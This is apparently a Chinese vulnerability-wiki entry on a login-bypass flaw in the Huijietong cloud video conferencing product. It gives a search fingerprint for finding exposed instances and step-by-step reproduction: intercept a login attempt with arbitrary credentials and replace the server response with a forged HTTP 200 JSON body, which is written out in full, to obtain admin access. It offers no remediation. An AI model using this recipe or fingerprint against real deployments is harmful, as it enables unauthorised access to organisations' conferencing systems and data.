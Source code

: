 # 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

<a-checkbox checked>会捷通云视讯</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/him/api/rest/v1.0/node/role"</a-checkbox></br>

## 漏洞复现

登陆页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145725036.png)



输入任意账号密码抓包

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145724754.png)



修改返回包为如下后放包则成功绕过登录

```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145724948.png)